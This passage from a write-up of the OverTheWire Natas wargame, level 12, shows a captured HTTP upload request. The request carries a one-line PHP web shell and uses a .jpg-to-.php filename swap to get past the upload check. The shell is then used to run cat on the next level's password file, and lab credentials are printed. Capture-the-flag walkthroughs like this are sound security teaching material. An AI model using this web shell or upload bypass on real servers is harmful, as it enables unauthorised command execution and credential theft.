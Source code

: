```
Host: natas12.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------364886043538294662382913278575
Content-Length: 521
Origin: http://natas12.natas.labs.overthewire.org
Authorization: Basic bmF0YXMxMjpFRFhwMHBTMjZ3TEtIWnkxckRCUFVaazBSS2ZMR0lSMw==
Connection: close
Referer: http://natas12.natas.labs.overthewire.org/
Cookie: __utma=176859643.359785852.1644174450.1644174450.1644174450.1; __utmz=176859643.1644174450.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none)
Upgrade-Insecure-Requests: 1

-----------------------------364886043538294662382913278575
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------364886043538294662382913278575
Content-Disposition: form-data; name="filename"

tescipab3s.jpg
-----------------------------364886043538294662382913278575
Content-Disposition: form-data; name="uploadedfile"; filename="readme.php"
Content-Type: application/x-php

<?php system($_GET["cmd"]); ?>

-----------------------------364886043538294662382913278575--
```
I change the tescipab3s.jpg to tescipab3s.php which seems to circumvent the issue. Navigating this this location and using: <b>http://natas12.natas.labs.overthewire.org/upload/tescipab3s.php?cmd=[COMMAND]</b> give me RCE. I can then display the password for the next level using: <b>http://natas12.natas.labs.overthewire.org/upload/n9tb0zl0l7.php?cmd=cat%20/etc/natas_webpass/natas13</b>

## natas13
```
natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
```